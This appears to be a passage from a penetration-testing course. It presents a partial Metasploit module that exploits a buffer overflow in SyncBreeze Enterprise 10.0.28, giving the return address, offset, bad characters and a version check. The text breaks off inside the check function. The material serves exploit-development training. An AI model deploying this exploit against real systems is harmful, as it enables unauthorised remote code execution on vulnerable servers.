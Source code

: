 > Listing 64 - Exploit function of the Metasploit module

Putting all the parts together gives us a complete Metasploit exploit module for the SyncBreeze Enterprise vulnerability:

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'SyncBreeze Enterprise Buffer Overflow',
      'Description'    => %q(
        This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF.
      ),
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Offensive Security', 'offsec' ],
      'References'     =>
        [
          [ 'EDB', '42886' ]
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread'
        },
      'Platform'       => 'win',
      'Payload'        =>
        {
          'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
          'Space'      => 500
        },
      'Targets'        =>
        [
          [ 'SyncBreeze Enterprise 10.0.28',
            {
              'Ret' => 0x10090c83, # JMP ESP -- libspp.dll
              'Offset' => 780
            }]
        ],
      'Privileged'     => true,
      'DisclosureDate' => 'Oct 20 2019',
      'DefaultTarget'  => 0))

    register_options([Opt::RPORT(80)])
  end

  def check
    res = send_request_cgi(
      'uri'    =>  '/',
      'method' =>  'GET'
    )

    if res && res.code == 200
	    product_name = res.body.scan(/(Sync Breeze Enterprise v[^<]*)/i).flatten.first
	    if product_name =~ /10\.0\.28/
      		return Exploit::CheckCode::Appears
    	end
    end
```